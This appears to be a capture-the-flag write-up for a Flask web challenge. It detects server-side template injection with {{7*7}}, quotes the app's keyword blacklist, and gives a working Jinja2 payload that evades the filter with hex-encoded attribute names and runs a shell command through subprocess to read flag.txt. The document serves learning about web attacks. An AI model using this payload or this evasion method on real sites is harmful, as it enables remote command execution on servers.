

# Build-A-Website

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|100|Web|247|

### Description

```
I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.	
```

### Attachments

```
https://imaginaryctf.org/r/3ACF-app.py
http://build-a-website.chal.imaginaryctf.org/
```
First thing we checked was to build a website containing: {{7*7}}



As this returned 49 instead of {{7*7}} we knew Server Side Template Injection(SSTI) is possible.

However looking at the blacklist in app.py
```
blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
```
We see a lot of words that we would usually use but can't in this setup. So we figured a way to bypass this by encoding it as Hex.

`__class__` for example, became `\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f` etc.

So now we can run:
```
{{url_for.__class__.__mro__[1].__subclasses__()[360]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```
converted to:
```
{{url_for["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"].__mro__[1]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[360]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

There is our flag:
```
ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}
```